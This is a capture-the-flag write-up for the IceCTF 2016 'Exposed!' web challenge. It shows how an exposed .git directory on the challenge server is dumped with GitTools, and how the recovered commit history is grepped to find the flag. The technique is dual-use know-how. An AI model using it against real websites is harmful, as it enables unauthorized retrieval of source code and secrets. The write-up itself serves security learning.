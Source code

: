 ```yaml
---
layout: post
title: "IceCTF - 60 - Exposed! - Web"
lang: en
categories:
  - security
  - writeups
tags:
  - security
  - writeups
  - ctf
  - web
date: 2016/08/25
thumbnail: /images/ctf.png
---
```

## Informations

### Version

| By    | Version | Comment
| ---   | ---     | ---
| noraj | 1.0     | Creation

### CTF

- **Name** : IceCTF 2016
- **Website** : [https://icec.tf/](https://icec.tf/)
- **Type** : Online
- **Format** : Jeopardy
- **CTF Time** : [link](https://ctftime.org/event/319)

### Description

John is pretty happy with himself, he just made his first [website](http://exposed.vuln.icec.tf/)! He used all the hip and cool systems, like NginX, PHP and Git! Everyone is so happy for him, but can you get him to give you the flag?

## Solution

1. Description tell us we're looking for a web hosted git repository.
2. Let's try `http://exposed.vuln.icec.tf/.git/`.
3. Oh I forgot to say! We are lazy and this tool is amazing: [GitTools](https://github.com/internetwache/GitTools).
4. Dump the git repo : `./gitdumper.sh http://exposed.vuln.icec.tf/.git/ repo`.
5. Let's see what we get in there:
```
ls -A1 repo/.git/
COMMIT_EDITMSG
HEAD
config
description
index
info
logs
objects
packed-refs
refs
```
6. Let's see `COMMIT_EDITMSG`:
```
cat .git/COMMIT_EDITMSG
add robots.txt

# Please enter the commit message for your changes. Lines starting
# with '#' will be ignored, and an empty message aborts the commit.
#
# Author:    James Sigurðarson <jamiees2@gmail.com>
# Date:      Wed Aug 10 21:47:49 2016 +0000
#
# On branch master
# Changes to be committed:
#	new file:   robots.txt
#
# Untracked files:
#	rewrite-history.sh
#
```
7. Interesting there is a `robots.txt`, we should have look to it sooner: [http://exposed.vuln.icec.tf/robots.txt](http://exposed.vuln.icec.tf/robots.txt)
```
User-Agent: *
Disallow: /.git
Disallow: /flag.php
```
8. Oh yeah a `flag.php` file! Let's go to [http://exposed.vuln.icec.tf/flag.php](http://exposed.vuln.icec.tf/flag.php): there is nothing anymore here.
9. But maybe we can found an older version of `flag.php` with git!
10. Want to dig into git HEAD and all? Nah! There still is [GitTools](https://github.com/internetwache/GitTools).
11. Let's extract all now: `./extractor.sh repo/ repodump/`.
12. There is a lot of stuff in here:
```
ls -RA repodump
repodump:
0-60756b184c2d6b8f0247c152d8549562bc14d2d9   14-b536a10b5453686bd1dfcc50da3cb156c321fb5f  2-adf0ebdff8a972f3f6158304323feba4aa1fd482   25-631503ff237e145c7bade484c44c05a223b51155  4-cda8cc0acc8a09153351e43c40f4abeb7a823a03
1-6034c348380c9709715e6af60d04f684867d7234   15-e9f1db96f8b67eced8183d2d523e4ea76c008b83  20-32b31838b757a00f2e296ac198ca7d9cb930e644  26-90c2cd27cabb8ec7f55941ecee004558a070ccde  5-68162dcb661493c295f3913b1c1da2b198adfdd8
10-fd2ac4d5260ee06f9a0e5f4808bf3862e2065fb8  16-ec95d11bb37f00fb8e17f6bdbb800124b79e3c32  21-5ea13398f975b53ff30b7ea162b2ec6897a48c68  27-541e08f75514d1caec2a62fe3a1af308da6f35d8  6-f5674cbaacd842cfacb9f825c29f7f3e5150c7ef
11-4183a0cd7143899e4a5d34f01ce58317fd68921e  17-590a15d32d9a494be5830f61c5c180ddef86e43e  22-ebe74d8641b4d8b90c33d1deb69070476b0ef402  28-4de7e6fbbba6f94bc146b33bbfe6c0155f3c2fd4  7-f521418118a088ef00fef0c3e199d30d6c7e96a5
12-175e312b3d3aeab77ada20ed93d1c9a3f2caf429  18-6b3e1ffdc1d679c4815f08ef1d70d1b955451b36  23-97dcb30a5862aa43984b8beee84c9477a7315856  29-bf55633224c5c76f49d42621ace07aa705ebae6e  8-584ae8349fe51e2cb25e11347003c11e92f88c74
13-1746e11be489319bd8900318874b68304eb05288  19-1f601ea8a09052234b53e2cc1bb12e4ceacbf8a6  24-971c67fd8ed67c3986844f627917c19c151d00bf  3-d70b2e576c0f35e83d70027434050e06f729662b   9-672c8f636b6db9c79412db177dcca75cde27c82b

repodump/0-60756b184c2d6b8f0247c152d8549562bc14d2d9:
.gitignore  commit-meta.txt  flag.php  index.php

repodump/1-6034c348380c9709715e6af60d04f684867d7234:
.gitignore  commit-meta.txt  flag.php  index.php

repodump/10-fd2ac4d5260ee06f9a0e5f4808bf3862e2065fb8:
commit-meta.txt  index.php

repodump/11-4183a0cd7143899e4a5d34f01ce58317fd68921e:
.gitignore  commit-meta.txt  flag.php  index.php  robots.txt

repodump/12-175e312b3d3aeab77ada20ed93d1c9a3f2caf429:
commit-meta.txt  index.php

repodump/13-1746e11be489319bd8900318874b68304eb05288:
.gitignore  commit-meta.txt  flag.php  index.php  robots.txt

repodump/14-b536a10b5453686bd1dfcc50da3cb156c321fb5f:
.gitignore  commit-meta.txt  index.php

repodump/15-e9f1db96f8b67eced8183d2d523e4ea76c008b83:
.gitignore  commit-meta.txt  flag.php  index.php  robots.txt

repodump/16-ec95d11bb37f00fb8e17f6bdbb800124b79e3c32:
.gitignore  commit-meta.txt  index.php

repodump/17-590a15d32d9a494be5830f61c5c180ddef86e43e:
.gitignore  commit-meta.txt  flag.php  index.php  robots.txt

repodump/18-6b3e1ffdc1d679c4815f08ef1d70d1b955451b36:
.gitignore  commit-meta.txt  index.php

repodump/19-1f601ea8a09052234b53e2cc1bb12e4ceacbf8a6:
.gitignore  commit-meta.txt  index.php

repodump/2-adf0ebdff8a972f3f6158304323feba4aa1fd482:
.gitignore  commit-meta.txt  flag.php  index.php

repodump/20-32b31838b757a00f2e296ac198ca7d9cb930e644:
.gitignore  commit-meta.txt  flag.php  flag.txt  index.php

repodump/21-5ea13398f975b53ff30b7ea162b2ec6897a48c68:
.gitignore  commit-meta.txt  flag.php  index.php

repodump/22-ebe74d8641b4d8b90c33d1deb69070476b0ef402:
.gitignore  commit-meta.txt  index.php

repodump/23-97dcb30a5862aa43984b8beee84c9477a7315856:
.gitignore  commit-meta.txt  flag.php  index.php

repodump/24-971c67fd8ed67c3986844f627917c19c151d00bf:
.gitignore  commit-meta.txt  index.php

repodump/25-631503ff237e145c7bade484c44c05a223b51155:
.gitignore  commit-meta.txt  flag.php  index.php

repodump/26-90c2cd27cabb8ec7f55941ecee004558a070ccde:
.gitignore  commit-meta.txt  index.php

repodump/27-541e08f75514d1caec2a62fe3a1af308da6f35d8:
.gitignore  commit-meta.txt  flag.php  flag.txt  index.php

repodump/28-4de7e6fbbba6f94bc146b33bbfe6c0155f3c2fd4:
.gitignore  commit-meta.txt  index.php

repodump/29-bf55633224c5c76f49d42621ace07aa705ebae6e:
.gitignore  commit-meta.txt  index.php

repodump/3-d70b2e576c0f35e83d70027434050e06f729662b:
.gitignore  commit-meta.txt  index.php

repodump/4-cda8cc0acc8a09153351e43c40f4abeb7a823a03:
.gitignore  commit-meta.txt  index.php

repodump/5-68162dcb661493c295f3913b1c1da2b198adfdd8:
.gitignore  commit-meta.txt  flag.php  index.php

repodump/6-f5674cbaacd842cfacb9f825c29f7f3e5150c7ef:
.gitignore  commit-meta.txt  index.php

repodump/7-f521418118a088ef00fef0c3e199d30d6c7e96a5:
.gitignore  commit-meta.txt  index.php

repodump/8-584ae8349fe51e2cb25e11347003c11e92f88c74:
.gitignore  commit-meta.txt  flag.php  flag.txt  index.php

repodump/9-672c8f636b6db9c79412db177dcca75cde27c82b:
.gitignore  commit-meta.txt  index.php
```
13. Still to lazy to dig with git? Ok let's use `grep`:
```
grep -r -i icectf{ repodump/
repodump/20-32b31838b757a00f2e296ac198ca7d9cb930e644/flag.txt:IceCTF{this_isnt_the_flag_either}
repodump/7-f521418118a088ef00fef0c3e199d30d6c7e96a5/index.php:            font-size: 2em; /* IceCTF{secure_y0ur */
repodump/8-584ae8349fe51e2cb25e11347003c11e92f88c74/flag.txt:IceCTF{this_isnt_the_flag_either}
repodump/0-60756b184c2d6b8f0247c152d8549562bc14d2d9/flag.php:                    echo 'IceCTF{not_this_flag}';
repodump/6-f5674cbaacd842cfacb9f825c29f7f3e5150c7ef/index.php:                echo 'Hello World! IceCTF{secure_y0ur_g1t_repos_pe0ple}';
repodump/18-6b3e1ffdc1d679c4815f08ef1d70d1b955451b36/index.php:                echo 'Hello World! IceCTF{secure_y0ur_g1t_repos_pe0ple}';
repodump/27-541e08f75514d1caec2a62fe3a1af308da6f35d8/flag.txt:IceCTF{this_isnt_the_flag_either}
repodump/23-97dcb30a5862aa43984b8beee84c9477a7315856/flag.php:                    echo 'IceCTF{not_this_flag}';
```
14. Tada!
